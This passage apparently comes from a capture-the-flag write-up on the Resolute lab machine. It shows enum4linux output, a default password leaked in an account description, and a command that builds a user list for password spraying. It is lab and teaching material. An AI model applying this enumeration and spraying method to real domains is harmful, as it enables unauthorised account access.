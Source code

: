 ```

 ======================================================================= 
|    Users on resolute.htb via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================= 
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.

 ============================================= 
|    Getting printer info for resolute.htb    |
 ============================================= 
Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Fri Feb 28 12:40:27 2020
```
Key information:
- Domain is `MEGABANK`,
- We've got a list of user accounts,
- We're given a glimpse of some local groups - the `Remote Management Users` group indicates that we could open a Windows Remote Management shell if we have the right credentials.

Most importantly, we're also given a big clue:
```
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
```

This tells us that new accounts have their default password set to `Welcome123!` - if we tried this with `Marko Novak`'s account, we'll see that it didn't work. So maybe Marko was diligent enough to change away his default password - but what if others weren't so diligent? Let's try it on all the user accounts we discovered.
  
### Shell as melanie
First, we can gather all user accounts from our `enum4linux` output and store them in a file (e.g. `users.txt`) via a simple bash command (here I'd stored my `enum4linux` output in a file called `initial.txt`):
```
kali@kali:~$ cat initial.txt | grep "user:" | cut -d"[" -f 2 | cut -d "]" -f 1 > users.txt
```
Inside `users.txt`:
```
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
```